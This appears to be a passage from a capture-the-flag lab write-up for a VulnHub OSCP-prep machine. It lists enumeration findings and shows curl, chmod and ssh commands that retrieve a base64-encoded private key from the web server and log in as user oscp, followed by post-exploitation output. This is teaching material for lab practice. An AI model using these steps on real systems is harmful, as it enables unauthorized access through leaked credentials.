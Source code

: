 ![writeup.enumeration.steps.4.2](Box%20Write-ups/vulnhub.infosecpreposcp/screenshot03.png)  

5\. This file has base64 encoded content that we decode to find a SSH private key file:  
``` {.python .numberLines}
curl http://192.168.119.198/secret.txt | base64 -d -

```

![writeup.enumeration.steps.5.1](Box%20Write-ups/vulnhub.infosecpreposcp/screenshot04.png)  


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp      ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux protocol 2.0)
80/tcp      http       Apache httpd 2.4.41 ((Ubuntu))
33060/tcp   socks5
```
#### Files
``` {.python .numberLines}
http://192.168.119.198/secret.txt
http://192.168.119.198/license.txt
```
#### Users
``` {.python .numberLines}
ssh: oscp
wordpress: admin
```

\newpage
## Phase #2: Exploitation
1\. We can try to SSH into the machine as user `oscp` using the SSH private key file. First, we need to set right permissions to the key file and then use it for login:  
``` {.python .numberLines}
curl http://192.168.119.198/secret.txt | base64 -d - >./sshkey.pvt
chmod 600 sshkey.pvt
ssh -i sshkey.pvt oscp@192.168.119.198

```

![writeup.exploitation.steps.1.1](Box%20Write-ups/vulnhub.infosecpreposcp/screenshot05.png)  

2\. We successfully login and get interactive access of the machine as user `oscp`:  

![writeup.exploitation.steps.2.1](Box%20Write-ups/vulnhub.infosecpreposcp/screenshot06.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
oscp@oscp> id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
oscp@oscp>  
oscp@oscp> uname
Linux oscp 5.4.0-40-generic #44-Ubuntu SMP Tue Jun 23 00:01:04 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
oscp@oscp>  
oscp@oscp> ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
  inet 192.168.119.198  netmask 255.255.255.0  broadcast 192.168.119.255
  inet6 fe80::20c:29ff:fee6:a4ab  prefixlen 64  scopeid 0x20<link>
  ether 00:0c:29:e6:a4:ab  txqueuelen 1000  (Ethernet)
  RX packets 389730  bytes 88031188 (88.0 MB)
  RX errors 0  dropped 0  overruns 0  frame 0
```